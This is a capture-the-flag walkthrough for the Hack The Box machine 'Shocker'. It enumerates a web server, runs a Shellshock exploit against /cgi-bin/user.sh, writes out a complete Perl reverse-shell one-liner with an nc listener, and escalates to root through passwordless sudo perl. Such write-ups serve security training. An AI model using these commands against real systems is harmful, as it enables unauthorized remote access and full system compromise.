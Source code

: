 ![[Pasted image 20240720111036.png]]

**Ping**
```
ping 10.10.10.56
```
![[Pasted image 20240611160304.png]]

**Nmap default Scan**
```
nmap 10.10.10.56 -sC -sV -oN snmap
```
![[Pasted image 20240611160429.png]]

**All port Scan** 
```
nmap 10.10.10.56 -p- --open -T5 -sC -sV -oN anmap
```
![[Pasted image 20240611160806.png]]

**Port 80**
![[Pasted image 20240611160822.png]]

**Gobuster on port 80**
```
gobuster dir -u http://10.10.10.56// -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240611162240.png]]
Nothing Interesting.

Using dirb
```
dirb http://10.10.10.56 -o dirb.txt -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```
![[Pasted image 20240611162400.png]]
We have found a new directory /cgi-bin

Will exploit the cgi-bin also we can add .sh and .cgi extensions in Gobuster
```
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf,sh,cgi -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster_cgi-bin.txt
```
![[Pasted image 20240611162221.png]]
We found a new file user.sh

The new directory, downloads a file 
![[Pasted image 20240611162619.png]]





Content of user.sh
![[Pasted image 20240611164147.png]]
We can use this /cgi-bin/user.sh as shellshock code 

Will find exploit for cgi-bin
![[Pasted image 20240611164243.png]]

We found one from Exploit-db https://www.exploit-db.com/exploits/34900
![[Pasted image 20240611164320.png]]

Slightly modified the exploit code according to our need
![[Pasted image 20240611164420.png]]
Included vulnerable directory

Then ran the exploit
```
python2 exp.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.7 lport=443
```
![[Pasted image 20240611164515.png]]
We got RCE, will get reverse shell now


Reverse shell using Perl
```
perl -e 'use Socket;$i="10.10.14.2";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```
![[Pasted image 20240611164620.png]]

```
rlwrap nc -nvlp 4444
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240611164712.png]]
Got reverse shell and upgraded my shell to interactive using python 3.

Got user.txt
![[Pasted image 20240611164842.png]]


Let's Strat with sudo permissions
```
sudo -l
```
![[Pasted image 20240611165110.png]]
Perl has sudo privilege with no password

Will exploit this to escalate our privilege
```
sudo perl -e 'exec "/bin/sh";'
```
![[Pasted image 20240611165418.png]]
We are in as root now

We got our root flag
![[Pasted image 20240611165502.png]]





That's it, we are done with Shocker....:)